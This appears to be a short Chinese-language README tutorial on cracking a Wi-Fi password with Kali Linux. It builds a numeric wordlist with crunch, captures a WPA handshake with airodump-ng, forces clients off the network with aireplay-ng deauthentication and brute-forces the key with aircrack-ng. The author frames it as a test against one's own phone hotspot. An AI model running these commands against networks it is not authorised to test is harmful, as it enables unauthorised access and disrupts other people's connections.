# 破解-wifi
kali的小应用
## 要求:
一台装有kali的电脑；
一部手机，
一个支持监控的无线网卡(一般笔记本都支持)；
一个强大的字典；
人需要有时间和耐心；
## 手机开热点，密码设纯数字8到10位
## 准备字典
这里我们自己建一个简单字典来用会比较快，可以验证是否成功，
先在/etc下创建一个字典，使用crunch命令创建 
`crunch 8 10 1234567890. -o /etc/zidian.txt`
## 首先断开连接的wifi
在终端中执行：`airmon-ng`
## 开启无线网卡的监控模式
`airmon-ng start wlan0`
之后网卡接口会变成wlan0mon
## 查看wifi网络
`airodump-ng wlan0mon`
CH 是频道号，BSSID是网卡物理地址，ESSID是WiFi名称
按CTRL+C结束
## 抓取握手包
目标路由CH号为 1 ，mac为 11：22：33：44：55：66
命令airodump-ng -c 目标CH号 --bssid 目标mac -w 保存位置 wlan0mon
`airodump-ng -c 1 --bssid 11:22:33:44:55:66 -w /etc/ wlan0mon`
成功后，按CTRL+C结束
## 等不到有人连WiFi，抓不到包，只能强制设备连接
打开另一个终端，运行一下命令
-0 是发起攻击，2 是表示断开后ping的次数，次数越多，设备重连的验证时间越长，-a 是指定路由，-c 指定断开设备 
`aireplay-ng -0 2 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 wlan0mon`
## 得到握手包后，可以关闭监控模式了
`airmon-ng stop wlan0mon`
## 开始破解密码
`aircrack-ng -w /etc/zidian.txt /etc/*.cap`
